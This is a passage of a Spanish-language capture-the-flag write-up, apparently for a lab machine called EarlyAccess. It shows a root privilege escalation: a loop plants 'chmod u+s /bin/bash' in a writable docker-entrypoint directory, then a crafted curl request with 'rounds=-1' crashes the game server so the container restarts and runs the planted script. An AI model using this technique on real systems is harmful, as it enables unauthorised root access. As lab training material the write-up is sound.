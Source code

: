 <img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686606113/early_game_9999_m2kows.webp'
/>

Ahora en <i>/</i> tenemos un archivo llamado <i>entrypoint.sh</i>

```powershell
game-tester@game-server:/$ cat entrypoint.sh
#!/bin/bash
for ep in /docker-entrypoint.d/*; do
if [ -x "$(ep)" ]; then
echo "Running: \${ep}"
"\${ep}" &
fi
done
tail -f /dev/null
```

vemos que en <i>/docker-entrypoint.d</i> tenemos un archivo <i>node-server.sh</i>...

```powershell
game-tester@game-server:/$ cat node-server.sh
service ssh start

cd /usr/src/app

# Install dependencies
npm install
sudo -u node node server.js
```

coger cada archivo dentro de <i>/docker-entrypoint.d</i> y lo ejecuta, pero el <i>node-server.sh</i> lo tendrá que traerlo de alguna ruta para ello
ejecutamos...

```powershell
find \\-name node-server.sh 2>/dev/null
./opt/docker-entrypoint.d/node-server.sh
```

es esta la ruta donde tendremos que crear nuestro script para ganar acceso y
tratar de petar el juego como por ejemplo <i>curl http://127.0.0.1:9999/autoplay -d 'rounds=-1'</i>

```powershell
drew@earlyaccess:/$ while true; do echo "chmod u+s /bin/bash" > /opt/docker-entrypoint/miscript.sh; chmod +x /opt/docker-entrypoint/miscript.sh;sleep 1; done
```

y del otro lado... y esperamos ....

```powershell
game-tester@game-server:/$ curl http://127.0.0.1:9999/autoplay -d 'rounds=-1'
Connection to 172.19.0.3 closed by remote host.
Connection to 172.19.0.3 closed.
drew@earlyaccess:~/.shh
```

